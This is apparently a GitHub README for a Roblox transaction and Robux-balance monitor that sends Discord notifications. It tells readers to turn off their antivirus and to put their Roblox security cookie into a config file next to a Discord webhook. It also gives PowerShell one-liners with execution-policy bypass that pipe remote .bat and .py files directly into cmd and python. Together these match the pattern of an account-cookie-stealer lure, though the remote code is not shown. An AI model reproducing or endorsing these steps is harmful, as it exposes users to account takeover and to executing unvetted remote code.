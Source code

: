 # Roblox Transaction Monitor (CTL Edition)
A command-line tool to monitor Roblox transactions and Robux balance changes in real-time. Get Discord notifications when your Roblox economy data changes.

## Screenshots

<img width="731" height="192" alt="Screenshot 2025-10-30 122532" src="https://github.com/user-attachments/assets/cef27e07-8c6d-400f-96df-dda8088851b6" />
<img width="417" height="206" alt="image" src="https://github.com/user-attachments/assets/6b6d568c-c5a5-4df1-ab0e-d5cdea0683e0" />

## Features

- [x] Real-time monitoring of Roblox transactions via CTL
- [x] Robux balance tracking
- [x] Discord webhook integration for notifications
- [x] Lightweight CLI interface
- [x] Customizable monitoring intervals
- [x] Detailed logging system

## Quick Start

- [x] Disable antivirus temporarily
- [x] Download and run the CTL script
- [x] Re-enable antivirus once configured

## TODO
- [x] Add time-range filters (day / month / year / total)
- [ ] Package as a single portable executable

## Configuration
Create a `config.json` file with:

1. Roblox Security Cookie
2. Discord Webhook URL
3. Discord Emoji ID for Robux display
4. Discord Emoji Name
5. Check Interval (seconds)
6. Time-span filter: `day`, `month`, `year`, or `total`

## Usage
Install dependencies:
```
powershell -ep bypass -Command "IWR 'https://raw.githubusercontent.com/MrAndiGamesDev/NEW-Roblox-Transaction-Balance-Monitor/main/install.bat' | % Content | cmd"
```
Python Stable Version
```
powershell -Command "(Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/MrAndiGamesDev/NEW-Roblox-Transaction-Balance-Monitor/main/main.py').Content | python"
```
Python Dev Version
```
powershell -Command "(Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/MrAndiGamesDev/NEW-Roblox-Transaction-Balance-Monitor/main/maindev.py').Content | python"
```
UnInstall dependencies
```
powershell -ep bypass -Command "IWR 'https://raw.githubusercontent.com/MrAndiGamesDev/NEW-Roblox-Transaction-Balance-Monitor/main/uninstall.bat' | % Content | cmd"
```
## License
This project is licensed under the Apache License - see the LICENSE file for details.